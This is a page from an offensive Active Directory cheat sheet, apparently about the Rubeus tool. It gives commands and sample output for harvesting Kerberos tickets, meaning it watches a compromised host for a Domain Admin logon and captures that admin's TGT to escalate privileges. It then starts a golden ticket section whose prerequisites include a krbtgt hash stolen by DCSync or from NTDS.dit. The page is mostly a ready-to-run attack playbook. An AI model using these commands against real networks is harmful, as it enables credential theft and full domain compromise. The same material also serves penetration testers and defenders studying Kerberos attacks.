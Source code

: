 
## 5. Ticket Monitoring (Harvesting)

### Monitor for New Tickets

**When:** Waiting for high-value user (Domain Admin) to authenticate

```powershell
# Monitor every 5 seconds for new 4624 logon events
Rubeus.exe monitor /interval:5

# Monitor and filter for specific user
Rubeus.exe monitor /interval:5 /filteruser:DA-Admin

# Output (when DA logs in):
# [*] 10/24/2025 6:38:10 PM - 4624 logon event for 'CORP\DA-Admin' from '10.10.10.50'
# [*] Requesting TGT for DA-Admin
# [+] TGT request successful!
# [*] base64(ticket.kirbi):
# doIFuj...
```

---

### Monitor Options

```powershell
# Monitor specific interval
Rubeus.exe monitor /interval:10

# Monitor and auto-dump tickets
Rubeus.exe monitor /interval:5 /targetuser:Administrator

# Monitor from specific time
Rubeus.exe monitor /interval:5 /nowrap
```

**Use case:** 
- Run on compromised workstation/server
- Wait for Domain Admin to RDP/access
- Automatically capture DA ticket
- Use ticket for privilege escalation

---

## 6. Golden Ticket Creation

### Prerequisites

**Need:**
- krbtgt account NTLM hash (from DCSync or NTDS.dit)
- Domain SID
- Domain name
